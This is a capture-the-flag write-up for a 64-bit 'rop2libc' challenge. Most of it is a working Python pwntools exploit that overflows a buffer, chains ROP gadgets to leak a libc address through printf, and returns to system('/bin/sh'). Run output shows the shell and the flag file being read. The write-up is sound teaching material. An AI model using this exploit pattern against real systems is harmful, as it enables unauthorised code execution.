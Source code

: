 ### Solved by superkojiman

At some point, the organizers decided to recompile all the binaries into 64-bit since some teams were apparently bruteforcing ASLR. Points were removed for AnswerMachine and rop2libc, so I had to redo those. 

The same concept as the 32-bit exploit, so have a look at that for the details. Only difference this time was I had to make use of some ROP gadgets to populate the registers before returning to printf() and system().

```python
#!/usr/bin/env python

from pwn import *

"""
handy dandy gadgets
0x0000000000400633: pop rdi; ret;
0x0000000000400631: pop rsi; pop r15; ret;
"""

off_libc_start_main = 0x0000000000021dd0
off_system          = 0x0000000000046640
off_bin_sh          = 0x000000000017ccdb

buf = ""
buf += "A"*72

# stage 1 leak and return to vuln()
buf += p64(0x400631)    # pop rsi; pop r15
buf += p64(0x601020)    # address to leak 
buf += p64(0x424242)    # r15: junk
buf += p64(0x400633)    # pop rdi;
buf += p64(0x40065e)    # rdi: ptr to "%s"
buf += p64(0x400450)    # printf@plt
buf += p64(0x40057d)    # ret2vuln()

#sh = process("./rop2libc")
sh = process("/problems/rop2libc/rop2libc")
sh.sendline(buf)
print sh.recvline()
d = sh.recvline()
print "leaked %d bytes:" % (len(d),)

t = d + "\x00"                      # pad with 0x0 so 8 bytes for u64()
leak = u64(t) - 0xa000000000000     # remove extra "\n"
print "libc_start_main:", hex(leak)

libc_base = leak - off_libc_start_main
print "libc base addr:", hex(libc_base)

addr_system = libc_base + off_system
addr_bin_sh = libc_base + off_bin_sh
print "system:", hex(addr_system)
print "/bin/sh:", hex(addr_bin_sh)

# stage 2 get a shell system("/bin/sh")
buf = ""
buf += "A"*72
buf += p64(0x400633)    # pop rdi;
buf += p64(addr_bin_sh)
buf += p64(addr_system)

print "trying to get shell, again..."
sh.sendline(buf)
sh.interactive()
sh.close()
```

And here's the pwnage once more:

```
team24254@shell:~$ ./sploit.py
[+] Starting program '/problems/rop2libc/rop2libc': Done
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1\x06@

leaked 7 bytes:
libc_start_main: 0x7f77209e7dd0
libc base addr: 0x7f77209c6000
system: 0x7f7720a0c640
/bin/sh: 0x7f7720b42cdb
trying to get shell, again...
[*] Switching to interactive mode
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA3\x06@
$ cat /problems/rop2libc/flag.txt
oops_i_think_your_got_sprung_a_leak
```
